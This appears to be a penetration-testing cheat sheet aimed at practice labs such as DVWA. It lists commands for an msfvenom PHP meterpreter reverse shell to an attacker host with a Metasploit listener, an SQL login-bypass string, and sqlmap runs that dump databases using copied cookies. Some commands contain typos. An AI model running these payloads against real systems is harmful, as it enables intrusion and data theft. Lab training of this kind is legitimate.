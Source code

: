 ### File Upload Vulnerability
**To create a PHP Payload**<br>
Copy the PHP code and create a .php<br>
msfvenom -p php/meterpreter/reverse_tcp lhost=attacker-ip lport=attcker-port -f raw

**To create a Reverse_tcp Connection**<br>
msfconsole<br>
use exploit/multi/handler<br>
set payload php/meterepreter/reverse_tcp<br>
set LHOST = attacker-ip<br>
set LPORT = attcker-port<br>
run

**To find the secret file**<br>
type C:\wamp64\www\DVWA\hackable\uploads\Hash.txt
  
### SQL Injection<br>
Login bypass with [' or 1=1 --]

**OWASP ZAP**<br>
Open the ZAP <br>
Add the webiste name to Autoscan<br>
Click on the Alert tab to know about Vulnerabilities

**DSSS**<br>
Damn Small SQLi Scanner (DSSS) is a fully functional SQL injection vulnerability scanner (supporting GET and POST parameters)<br>

As of optional settings it supports HTTP proxy together with HTTP header values User-Agent, Referer and Cookie.<br>

python3 dsss.py -u "url" --cookie="cookie"

### sqlmap
Open the vulnerable website - [host] (exmpl: http://movies.cehorg.com/viewprofile.aspx?id=1)<br>
Copy the cookie from the inspect element -> Console -> type document.cookie and copy the result - <cookie> (exmpl: mscope=Xf4nda2RM2w=; ui-tabs-1=0)<br>
Open the terminal to use sqlmap 

**List databases, add cookie values**<br>
sqlmap -u "[host]" --cookie=”<cookie>” --dbs <br>
OR<br>
sqlmap -u "[host]" --cookie=”<cookie>; security=low”   --data="id=1&Submit=Submit" --dbs  <br>

**List Tables, add databse name**<br>
sqlmap -u “[host]” --cookie="<cookie>" -D <DataBase> --tables<br>
OR<br>
sqlmap -u "[host]" --cookie=”<cookie>; security=low” -D <DataBase> --tables<br>  

**List Columns of that table**<br>
sqlmap -u "[host]" --cookie=”<cookie>; security=low” -D <DataBase> -T <Table>--columns

**Dump all values of the table**<br>
sqlmap -u “[host]” --cookie="<cookie>" -D <DataBase> -T <Table> --dump<br>
OR<br>
sqlmap -u "[host]" --cookie=”<cookie>; security=low” -D <DataBase> -T <Table> --dump
